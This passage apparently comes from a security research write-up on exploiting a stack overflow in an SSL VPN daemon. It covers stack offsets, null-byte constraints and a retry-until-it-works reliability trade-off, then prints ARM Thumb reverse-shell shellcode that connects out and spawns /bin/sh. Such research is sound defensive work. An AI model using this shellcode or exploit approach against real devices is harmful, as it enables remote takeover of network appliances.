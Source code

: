 When constructing shellcode, we have to keep in mind that it is processed by `strncat()`. Therefore, it can not contain any null bytes. That's why the command string is terminated with an "X" character, which is then replaced with a null byte in the instruction `strb r2, [r0, #7]`.  

Given the stack layout, our shellcode will be located about `0x12a` from the `$sp` values discussed in the previous section.
We noticed that by adding a few more filler bytes to the request we can get slightly higher reliability, but as discussed previously, there are two possible stack values when we take control. 

We decided to place our shellcode at offset `0x1b0` from the most common `$sp` value discussed in the previous section (`0x704aebe8`). This means our exploit will only have 65% reliability, but that is good enough given that the `sslvpnd` automagically restarts in less than 30 seconds if our exploit fails, so we can just try again until it works.

We sacrifice reliability to have to a simpler exploit without the need for ROP, which is difficult (but not impossible) given the null byte constraints.

```nasm
// Taken from Azeria's website and slightly modified
.global _start
_start:
.THUMB
// socket(2, 1, 0)
 mov   r0, #2
 mov   r1, #1
 sub   r2, r2
 mov   r7, #200
 add   r7, #81          // r7 = 281 (socket)
 svc   #1               // r0 = resultant sockfd
 mov   r4, r0           // save sockfd in r4

// connect(r0, &sockaddr, 16)
 adr   r1, struct       // pointer to address, port
 strb  r2, [r1, #1]     // write 0 for AF_INET
 mov   r2, #16
 add   r7, #2           // r7 = 283 (connect)
 svc   #1

// dup2(sockfd, 0)
 mov   r7, #63          // r7 = 63 (dup2)
 mov   r0, r4           // r4 is the saved sockfd
 sub   r1, r1           // r1 = 0 (stdin)
 svc   #1
// dup2(sockfd, 1)
 mov   r0, r4           // r4 is the saved sockfd
 mov   r1, #1           // r1 = 1 (stdout)
 svc   #1
// dup2(sockfd, 2)
 mov   r0, r4           // r4 is the saved sockfd
 mov   r1, #2           // r1 = 2 (stderr)
 svc   #1

// execve("/bin/sh", 0, 0)
 adr   r0, binsh
 sub   r2, r2
 sub   r1, r1
 strb  r2, [r0, #7]
 push  {r0, r2}
 mov   r1, sp
 cpy   r2, r1
 mov   r7, #11          // r7 = 11 (execve)
 svc   #1

 eor  r7, r7, r7

struct:
```
